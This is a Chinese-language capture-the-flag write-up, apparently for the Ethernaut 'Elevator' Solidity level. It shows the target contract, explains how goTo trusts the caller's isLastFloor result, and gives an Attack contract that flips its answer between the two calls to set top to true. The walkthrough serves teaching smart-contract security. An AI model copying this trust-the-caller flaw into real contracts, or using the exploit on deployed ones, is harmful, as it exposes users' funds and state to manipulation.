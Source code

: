 # Elevator

Elevator 這一關要求我們達到building的最高層。我們先看一下合約的代碼。

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
``` 

## 代码分析
首先看到Building的interface中，有一個叫做`isLastFloor`的函數，入參為uint而返回一個boolean值。而看`Elevator`合約，有兩個狀態變量，一個是boolean型的`top`，另一個是uint型的`floor`。而goTo函數中，首先將`msg.sender`轉換爲`Building`型，然後調用`isLastFloor`函數，如果返回值爲`false`，則將`floor`設置成我們的入參`_floor`，並且將`top`定義為`isLastFloor(floor)`的返回值。如果要完成這關的要求，我們就需要再第一次`isLastFloor`函數返回`false`,並且在接下來的第二次調用`isLastFloor`函數時返回`true`。

由於`isLastFloor`這個函數是屬於`msg.sender`，所以我們完全可以自己定義一個`isLastFloor`來達到第一次返回`false`，第二次返回`true`的要求。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Attack{
    Elevator private immutable target;
    bool manual_bool = true;

    constructor (address _target) {  
        target = Elevator(_target);
    }

    function go() external {
        target.goTo(1);
        require(target.top(), "Failed to reach top floor");
    }

    function isLastFloor(uint) external returns (bool) {
        manual_bool = !manual_bool;
        return manual_bool;
    }
}



interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## 攻击过程
1. 部署Attack合約，並且將Elevator合約的地址作爲入參傳入。
2. 調用go函數，完成任務。
